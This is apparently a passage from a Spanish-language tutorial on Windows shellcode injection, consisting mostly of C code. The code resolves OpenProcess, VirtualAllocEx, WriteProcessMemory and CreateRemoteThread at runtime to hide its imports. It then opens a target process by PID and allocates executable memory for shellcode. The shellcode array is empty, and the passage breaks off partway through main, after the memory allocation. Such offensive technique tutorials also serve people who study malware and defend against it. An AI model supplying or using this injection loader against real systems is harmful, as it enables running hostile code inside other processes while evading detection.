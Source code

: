 ```c
// puntero a funciones
typedef HANDLE (WINAPI *pOpenProcess)(DWORD, BOOL, DWORD);
typedef LPVOID (WINAPI *pVirtualAllocEx)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
typedef BOOL (WINAPI *pWriteProcessMemory)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
typedef HANDLE (WINAPI *pCreateRemoteThread)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);

// Este codigo va el main
pOpenProcess _OpenProcess = (pOpenProcess)GetProcAddress(GetModuleHandle("kernel32.dll"), "OpenProcess");
pVirtualAllocEx _VirtualAllocEx = (pVirtualAllocEx)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx");
pWriteProcessMemory _WriteProcessMemory = (pWriteProcessMemory)GetProcAddress(GetModuleHandle("kernel32.dll"), "WriteProcessMemory");
pCreateRemoteThread _CreateRemoteThread = (pCreateRemoteThread)GetProcAddress(GetModuleHandle("kernel32.dll"), "CreateRemoteThread");

```

El codigo completo de la inyeccion seria asi

```c
#include <stdio.h>
#include <windows.h>

typedef HANDLE (WINAPI *pOpenProcess)(DWORD, BOOL, DWORD);
typedef LPVOID (WINAPI *pVirtualAllocEx)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
typedef BOOL (WINAPI *pWriteProcessMemory)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
typedef HANDLE (WINAPI *pCreateRemoteThread)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);

UCHAR shellcode[] = {

};

INT main(INT argc, CHAR* argv[]) {
    if (argc < 2) {
        fprintf(stderr, "Indica el PID\n");
        return 1;
    }

    INT process_id = atoi(argv[1]);

    pOpenProcess _OpenProcess = (pOpenProcess)GetProcAddress(GetModuleHandle("kernel32.dll"), "OpenProcess");
    pVirtualAllocEx _VirtualAllocEx = (pVirtualAllocEx)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx");
    pWriteProcessMemory _WriteProcessMemory = (pWriteProcessMemory)GetProcAddress(GetModuleHandle("kernel32.dll"), "WriteProcessMemory");
    pCreateRemoteThread _CreateRemoteThread = (pCreateRemoteThread)GetProcAddress(GetModuleHandle("kernel32.dll"), "CreateRemoteThread");

    HANDLE hProcess = _OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_id);
    if (hProcess == NULL) {
        fprintf(stderr, "Error al abrir el proceso.\n");
        return 1;
    }

    LPVOID hAlloc = _VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (hAlloc == NULL) {
        fprintf(stderr, "Error al asignar memoria\n");
        CloseHandle(hProcess);
        return 1;
```
